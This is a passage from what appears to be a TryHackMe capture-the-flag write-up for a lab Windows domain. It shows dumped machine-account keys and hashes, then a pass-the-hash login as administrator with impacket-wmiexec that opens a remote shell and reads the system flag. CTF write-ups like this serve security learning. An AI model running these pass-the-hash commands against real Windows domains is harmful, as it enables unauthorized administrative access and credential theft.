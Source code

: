 ```PowerShell
  VULNNET-RST\WIN-2BO8M1OE1M1$:des-cbc-md5:6e7a76f457ec1023                                                                                                         
  VULNNET-RST\WIN-2BO8M1OE1M1$:plain_password_hex:a[removed]e1                                                                                                                        
  VULNNET-RST\WIN-2BO8M1OE1M1$:aa[removed]ee:3f7b392bda784f88731141d45de10327:::                                                                 
  [*] DPAPI_SYSTEM
  [...]
```

By passing the hash, I was able to log in as `administrator` and retrieved the system flag:
```PowerShell
$ impacket-wmiexec vulnnet-rst.local/administrator@10.10.185.116 -hashes aa[removed]ee:c2[removed]9d
  Impacket v0.12.0.dev1 - Copyright 2023 Fortra

  [*] SMBv3.0 dialect used
  [!] Launching semi-interactive shell - Careful what you execute
  [!] Press help for extra shell commands
  C:\>cd Users/Administrator/Desktop
  C:\Users\Administrator\Desktop>type system.txt
  THM{[removed]}
```

solved! :)